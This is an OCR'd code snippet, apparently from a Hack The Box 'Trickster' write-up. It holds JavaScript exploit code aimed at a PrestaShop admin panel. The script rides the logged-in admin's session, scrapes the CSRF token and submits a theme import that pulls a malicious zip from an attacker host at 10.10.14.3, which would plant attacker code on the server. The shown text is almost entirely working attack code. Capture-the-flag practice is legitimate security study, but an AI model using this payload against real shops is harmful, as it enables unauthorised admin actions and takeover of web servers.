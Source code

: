 ```html
            const csrfUrl = `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php/improve/design/themes/import?_token=${token}`;
            try {
                const response = await fetch(csrfUrl, {
                    method: 'GET',
                    credentials: 'include',
                    redirect: 'follow'
                });
                if (!response.ok) throw new Error('Failed to fetch the page for CSRF token extraction. Status: ' + response.status);
                
                const htmlText = await response.text();
                const parser = new DOMParser();
                const doc = parser.parseFromString(htmlText, "text/html");
                
                const csrfTokenInput = doc.querySelector('input[name="import_theme[_token]"]');
                const csrfToken = csrfTokenInput ? csrfTokenInput.value : null;
                if (!csrfToken) throw new Error('CSRF token not found in HTML content.');
                
                console.log('Extracted CSRF Token:', csrfToken);
                return csrfToken;
            } catch (error) {
                console.error('Error fetching CSRF token:', error);
                return null;
            }
        }

        async function importTheme() {
            try {
                const locationHeaderToken = await fetchTokenFromHTML();
                if (!locationHeaderToken) {
                    console.error('Failed to fetch token from HTML');
                    return;
                }

                const csrfToken = await fetchCSRFToken(locationHeaderToken);
                if (!csrfToken) {
                    console.error('Failed to fetch CSRF token');
                    return;
                }

                const formData = new FormData();
                formData.append('import_theme[import_from_web]', 'http://10.10.14.3/ps_next_8_theme_malicious.zip');
                formData.append('import_theme[_token]', csrfToken);

                const postUrl = `/admin634ewutrx1jgitlooaj/index.php/improve/design/themes/import?_token=${locationHeaderToken}`;
                console.log('POST URL:', postUrl);

                const response = await fetch(postUrl, {
                    method: 'POST',
                    body: formData,
                });

                if (response.ok) {
                    console.log('Theme imported successfully');
                } else {
                    console.error('Failed to import theme. Response Status:', response.status);
                }
            } catch (error) {
                console.error('Error importing theme:', error);
            }
```